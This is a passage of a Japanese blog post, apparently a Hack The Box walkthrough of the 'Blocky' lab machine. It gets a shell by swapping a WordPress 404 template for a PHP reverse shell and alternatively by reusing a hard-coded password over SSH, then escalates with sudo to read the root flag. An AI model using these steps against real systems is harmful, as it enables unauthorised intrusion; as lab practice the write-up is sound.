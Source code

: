 [Appearance]→[Editor]→[404 Template]に進み、phpリバースシェルスクリプトに置き換えます。  
使用したスクリプトは下記のものになります。  
pentestmonkey php-reverse-shell:  
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
![スクリーンショット 2021-05-27 174353.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/3d5d7a30-856b-95d3-50e0-dc273c9ca43e.png)
![スクリーンショット 2021-05-27 174333.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/ef92fbdd-afe7-e0d9-719a-7a41230df24d.png)

[Update File]完了後、netcatで待ち受けてから、下記のURLにアクセスします。  
twentyseventeenの箇所は自身が配置したパスに変更してください。

```
http://10.10.10.37/wp-content/themes/twentyseventeen/404.php
```
![スクリーンショット 2021-05-27 175111.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/12fc2fe9-064e-a099-e85d-9630fe9a556a.png)
これでシェルを取得完了です。

## 方法2
#### パスワードの使いまわし
classファイルにプレーンテキストでハードコーディングされていたパスワードをsshで使用するとそのまま接続ができてしまいます。

```
kali@kali:~/htb/Blocky$ ssh notch@10.10.10.37
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jun  5 21:56:54 2020 from 10.10.14.7
notch@Blocky:~$ ls
minecraft  user.txt
```

ssh接続できました。続いてこのユーザにsudo権限があるか試してみます。  
パスワードには先ほどと同じものを使用します。

```
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ cd ../../
notch@Blocky:/$ ls
bin   dev  home        lib    lost+found  mnt  proc  run   snap  sys  usr  vmlinuz
boot  etc  initrd.img  lib64  media       opt  root  sbin  srv   tmp  var
notch@Blocky:/$ sudo cat root/root.txt
0a9694a5b4d???????????????????? notch@Blocky:/$
```

sudo権限があったため直接root.txtファイルの中身を見ることができました。  
お疲れ様でした。
